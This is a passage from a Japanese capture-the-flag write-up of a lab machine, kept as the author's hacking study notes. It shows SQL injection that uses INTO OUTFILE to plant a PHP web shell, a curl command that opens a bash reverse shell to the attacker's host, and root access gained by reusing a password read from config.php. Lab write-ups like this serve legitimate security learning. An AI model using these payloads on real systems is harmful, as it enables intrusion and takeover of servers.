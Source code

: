 ``` bash
select privilege_type FROM information_schema.user_privileges where grantee = "<username>"

-- ファイルへの書き込み（ユーザにFILE権限が存在する場合のみ実行可能）
select "Test" into outfile '/var/www/html/Test.txt'

-- WEBシェルの書き込み
select "<?php SYSTEM($_REQUEST['cmd']); ?>" into outfile '/var/www/html/webshell.php'
```

特に着目すべきは、ユーザーのprivilege_typeを出力した際にFILE権限が付与されていた点です。

これは、DBユーザがローカルシステムへのファイルアクセスの権限を有していることを意味します。

参考：[MySQL :: MySQL 5.6 リファレンスマニュアル :: 6.2.1 MySQL で提供される権限](https://dev.mysql.com/doc/refman/5.6/ja/privileges-provided.html)

そのため、`into outfile`を用いて、SQLi経由でWEBシェルを埋め込むことに成功しました。

あとは、WEBシェルに対してリバースシェルを仕掛けることでUserフラグを取得できます。

``` bash
curl "http://10.10.11.116/webshell.php" --data-urlencode "cmd=bash -c '/bin/bash -l > /dev/tcp/10.10.0.0/4444 0<&1 2>&1'"
```

## Priv

ローカルログイン後にconfig.phpを参照すると、ユーザのパスワードが記載されていました。

``` php
<?php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-9qual-global-pw";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
```

これで`su root`を実行するとルート権限を取得することができます。

## まとめ

ハッキングを真面目に勉強しようと思ったので、とりあえずリタイアマシンを解きまくっていきます。
